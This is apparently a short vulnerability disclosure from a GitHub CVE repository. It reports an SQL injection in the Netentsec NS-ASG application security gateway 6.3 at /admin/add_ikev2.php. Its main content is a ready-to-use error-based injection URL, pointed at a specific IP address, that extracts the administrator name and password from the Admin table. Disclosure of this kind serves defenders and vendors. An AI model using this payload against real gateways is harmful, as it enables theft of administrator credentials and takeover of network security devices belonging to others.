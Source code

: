 <img width="717" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/7dc8f35e-78db-477c-94d5-a38bf7374758">Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/add_ikev2.php

https://1.85.53.53/admin/add_ikev2.php?TunnelId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))%20%23
<img width="717" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/4c0b05fa-4b22-409b-b509-2c7236eb16e2">
